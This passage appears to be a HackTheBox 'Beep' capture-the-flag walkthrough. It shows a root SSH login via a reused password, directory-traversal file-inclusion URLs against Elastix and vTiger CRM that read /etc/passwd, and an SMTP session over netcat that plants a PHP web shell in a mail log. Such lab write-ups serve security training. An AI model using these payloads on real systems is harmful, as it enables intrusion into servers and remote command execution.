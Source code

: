 Make a guess, I try this password with root's ssh credential.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Fri Apr  2 10:27:42 2021 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]#
```

### LFI and Postfix smtpd

After gathering information in the server, I have 2 LFI vulnerabilities:

1. Elastix 2.2.0 - 'graph.php' Local File Inclusion
2. vTiger CRM 5.1.0 - Local File Inclusion

Get the user account in the server.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00&cmd=id
```

I grep only user can execute shell

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

To create a backdoor, go first with SMTP service. I access to it and sent a mail contain php backdoor code to user `asterisk`.

```
┌──(Hades㉿10.10.14.5)-[2.1:32.9]~/walkthrough/hackthebox/beep
└─$ nc -nC 10.10.10.7 25
220 beep.localdomain ESMTP Postfix
vrfy asterisk@localhost
252 2.0.0 asterisk@localhost
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "asterisk"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as A3254D92FD
quit
221 2.0.0 Bye
```